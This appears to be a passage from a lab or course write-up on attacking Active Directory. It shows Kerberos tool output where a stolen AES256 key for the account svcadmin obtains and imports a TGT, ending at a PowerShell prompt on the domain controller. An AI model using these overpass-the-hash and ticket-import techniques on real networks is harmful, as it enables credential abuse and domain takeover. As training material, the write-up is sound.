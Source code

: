 ```
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 4051471
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x3dd20f
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/14/2025 1:45:16 AM
  EndTime                  :  2/14/2025 11:45:16 AM
  RenewTill                :  2/21/2025 1:45:16 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  R7HKKImUwV6eqiD8CMph42PZiTd0CCMn2VhoGIn6kDk=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```

![New spawned terminal process 1](./assets/screenshots/learning_objective_11_new_spawned_terminal_process_1.png)

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)


[172.16.2.1]: PS C:\Users\Administrator.DCORP-DC\Documents>